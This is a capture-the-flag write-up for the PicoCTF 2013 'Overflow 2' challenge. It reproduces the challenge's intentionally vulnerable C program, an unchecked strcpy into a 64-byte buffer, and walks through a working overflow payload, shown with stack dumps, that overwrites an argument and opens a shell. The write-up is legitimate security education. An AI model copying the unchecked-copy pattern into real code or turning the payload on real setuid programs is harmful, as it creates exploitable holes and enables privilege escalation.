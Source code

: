 # PicoCTF 2013: Overflow 2

**Category:** Binary Exploitation
**Points:** 100
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_2_44e63640e033ff2b , downloadable [here](https://2013.picoctf.com/problems/overflow2-44e63640e033ff2b) with source
>[here](https://2013.picoctf.com/problems/overflow2-44e63640e033ff2b.c).

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_2_44e63640e033ff2b/key
>on the PicoCTF shell machine.

>**Hint:** A function's arguments live on top of its stack frame, above its
>saved ebp and return address. Make sure not to clobber those, though...


## Write-up
Looking at the source, this problem is nearly identical to Overflow 1
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "dump_stack.h"

void vuln(int win, char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &win);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: stack_overwrite [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    vuln(0, argv[1]);
    return 0;
}
```
All we have to do is set win equal to 1 and we get a shell. Let's try filling
up our buffer and writing one more character.

```
$(python -c 'print "A"*64 + "B"')
Stack dump:
0xffe0c7a8: 0x000003e8
0xffe0c7a4: 0xffe0d848 (second argument)
0xffe0c7a0: 0x00000000 (first argument)
0xffe0c79c: 0x0804870b (saved eip)
0xffe0c798: 0xffe0c7c8 (saved ebp)
0xffe0c794: 0xf773c000
0xffe0c790: 0xf7640042
0xffe0c78c: 0x41414141
0xffe0c788: 0x41414141
0xffe0c784: 0x41414141
0xffe0c780: 0x41414141
0xffe0c77c: 0x41414141
0xffe0c778: 0x41414141
0xffe0c774: 0x41414141
0xffe0c770: 0x41414141
0xffe0c76c: 0x41414141
0xffe0c768: 0x41414141
0xffe0c764: 0x41414141
0xffe0c760: 0x41414141
0xffe0c75c: 0x41414141
0xffe0c758: 0x41414141
0xffe0c754: 0x41414141
0xffe0c750: 0x41414141 (beginning of buffer)
win = 0
Sorry, you lose.
```
It didn't quite work that time, but all we need is 16 more characters after 
our buffer and "\x01" to get a shell!
```
$ ./overflow2-44e63640e033ff2b $(python -c 'print "A"*64 + "B"*16 + "\x01"')
Stack dump:
0xff915b18: 0x000003e8
0xff915b14: 0xff917838 (second argument)
0xff915b10: 0x00000001 (first argument)
0xff915b0c: 0x42424242 (saved eip)
0xff915b08: 0x42424242 (saved ebp)
0xff915b04: 0x42424242
0xff915b00: 0x42424242
0xff915afc: 0x41414141
0xff915af8: 0x41414141
0xff915af4: 0x41414141
0xff915af0: 0x41414141
0xff915aec: 0x41414141
0xff915ae8: 0x41414141
0xff915ae4: 0x41414141
0xff915ae0: 0x41414141
0xff915adc: 0x41414141
0xff915ad8: 0x41414141
0xff915ad4: 0x41414141
0xff915ad0: 0x41414141
0xff915acc: 0x41414141
0xff915ac8: 0x41414141
0xff915ac4: 0x41414141
0xff915ac0: 0x41414141 (beginning of buffer)
win = 1
$
```
The hint said not to clobber the saved ebp and eip arguments, but those don't
matter for this problem. You'll get a shell before the `ret` instruction
occurs, so you don't have to worry :)

pwn.

## Other write-ups and resources

* none yet
